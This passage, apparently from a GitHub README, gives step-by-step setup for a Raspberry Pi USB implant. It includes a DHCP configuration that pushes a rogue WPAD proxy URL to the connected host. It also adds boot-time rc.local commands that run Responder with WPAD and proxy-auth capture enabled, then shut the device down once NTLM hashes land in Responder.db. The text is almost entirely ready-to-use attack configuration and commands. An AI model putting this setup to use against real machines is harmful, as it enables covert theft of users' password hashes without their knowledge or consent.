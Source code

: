 

#### DHCP server setup

Backup the existing config file and create a new one for our setup

```sh
sudo mv /etc/dhcp/dhcpd.conf /etc/dhcp/dhcpd.conf.bkp
sudo nano /etc/dhcp/dhcpd.conf
```

Paste the below code:

```sh
ddns-update-style none;

option domain-name "domain.local";
option domain-name-servers 192.168.2.201;

default-lease-time 60;
max-lease-time 72;

# If this DHCP server is the official DHCP server for the local
# network, the authoritative directive should be uncommented.
authoritative;

# Use this to send dhcp log messages to a different log file (you also
# have to hack syslog.conf to complete the redirection).
log-facility local7;

# wpad
option local-proxy-config code 252 = text;

# A slightly different configuration for an internal subnet.
subnet 192.168.2.0 netmask 255.255.255.0 {
  range 192.168.2.1 192.168.2.2;
  option routers 192.168.2.201;
  option local-proxy-config "http://192.168.2.201/wpad.dat";
}
```



#### Run scripts at boot

Open the /etc/rc.local file.

```sh
sudo nano /etc/rc.local
```

Paste the below code before **exit 0**.

```sh
# Clear leases
rm -f /var/lib/dhcp/dhcpd.leases
touch /var/lib/dhcp/dhcpd.leases

# Start DHCP server
/usr/sbin/dhcpd

# Start Responder
/usr/bin/screen -dmS responder bash -c 'cd /home/pi/tools/responder/; python Responder.py -I usb0 -f -w -r -d -F'

# Monitor Responder.db and shutdown once the hashes are captured
echo "Staring cred watch" >> /root/rc.log
/usr/bin/screen -dmS notify bash -c 'while inotifywait -e modify /home/pi/tools/responder/Responder.db; do shutdown -h now; done'
```
